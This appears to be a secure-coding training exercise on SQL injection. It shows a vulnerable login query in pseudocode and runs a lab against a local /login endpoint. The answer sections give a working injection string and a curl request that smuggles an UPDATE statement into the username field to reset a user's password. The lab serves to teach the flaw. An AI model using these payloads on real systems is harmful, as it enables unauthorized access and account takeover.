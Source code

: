 ## Exercise 1 - SQL Injection

SQL injection is the ability of an attacker to execute arbitrary SQL into an insecurely created query. They might do this to attempt to gain access to the system, cause destruction by deleting rows, or list vital information that they should not have access to.

The way SQL injections are constructed is by the use of escape characters such as `'` which allows an attacker to escape out of the intended query with their own input and execute another query directly against the database.

For example, let's say we had some logic such as the following (in pseudocode):
teste
```
username := user input from HTML form
password := user input from HTML form
hashedPassword := md5(password)

sql := "select * from admins where username = '" + username "' and password = '" + hashedPassword + "' limit 1"
executeQuery(sql)
```

This is a valid SQL string that is taking user input for username and password, hashing the password and comparing the hashed password to that in the database. This is a very common way to authenticate users to a platform, but is also easily able to be abused.

Let's say we are an attacker and want to execute some arbitrary SQL into this.

1. Which field would we exploit?
2. What string would we place into that field?
3. Who would this log us in as?

<details>
  <summary>Answer</summary>

  1. We would need to chose the `username` field in this case because if we chose the password field, our exploit would be hashed before it reaches the database.
  2. We could use something similar to the following as the `username` field to gain access:
  ```
  admin' or 1=1 limit 1 --
  ```
  **Followup Question: Why do we need the `--`?**
  3. This would log us in as the first admin depending on the sort order.

</details>

# Lab

Try to exploit the endpoint `/login` using a SQL injection. A valid, but unauthorized request looks like this:

```
curl -XPOST -H 'Content-Type: application/json' -d '{"username":"rick", "password":"password"}' 'http://localhost:8080/login'
```

Try to gain access as the user `rick`.

<details>
  <summary>Answer</summary>

  Though you may not be able to execute a 1=1 type login, you can still update the password and re-login a separate time

  ```
  $ curl -XPOST -H 'Content-Type: application/json' -d "{\"username\":\"rick'; update users set password=md5('password') where username = 'rick' --\", \"password\":\"foo\"}" 'http://localhost:8080/login'
  ```

  We should get an error and that's fine, we've broken the JDBC parser and successfully changed `rick`s password to something we know: `password`. Now try logging in with that password:

  ```
  $ curl -XPOST -H 'Content-Type: application/json' -d '{"username":"rick", "password":"password"}' 'http://localhost:8080/login' | jq .
  ```

</details>
